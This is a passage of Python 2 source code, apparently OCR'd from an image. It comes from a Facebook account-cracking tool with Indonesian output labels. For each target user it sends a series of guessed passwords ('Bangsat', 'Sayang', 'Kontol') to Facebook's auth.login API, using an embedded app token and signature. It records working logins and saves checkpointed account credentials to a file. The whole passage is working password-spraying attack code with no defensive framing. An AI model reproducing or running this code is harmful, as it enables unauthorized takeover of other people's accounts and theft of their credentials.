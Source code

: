 print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
 oks.append(user+pass3)
 else:
 if 'www.facebook.com' in q["error_msg"]:
 print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
 cek = open("out/super_cp.txt", "a")
 cek.write(user+"|"+pass3+"\n")
 cek.close()
 cekpoint.append(user+pass3)
 else:
 pass4 = 'Bangsat'
 data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
 q = json.load(data)
 if 'access_token' in q:
 print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
 oks.append(user+pass4)
 else:
 if 'www.facebook.com' in q["error_msg"]:
 print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
 cek = open("out/super_cp.txt", "a")
 cek.write(user+"|"+pass4+"\n")
 cek.close()
 cekpoint.append(user+pass4)
 else:
 pass5 = 'Sayang'
 data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
 q = json.load(data)
 if 'access_token' in q:
 print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
 oks.append(user+pass5)
 else:
 if 'www.facebook.com' in q["error_msg"]:
 print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
 cek = open("out/super_cp.txt", "a")
 cek.write(user+"|"+pass5+"\n")
 cek.close()
 cekpoint.append(user+pass5)
 else:
 pass6 = 'Kontol'
 data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
 q = json.load(data)
 if 'access_token' in q:
 print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
 oks.append(user+pass6)
 else:
 if 'www.facebook.com' in q["error_msg"]:
 print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
 cek = open("out/super_cp.txt", "a")
 cek.write(user+"|"+pass6+"\n")
 cek.close()
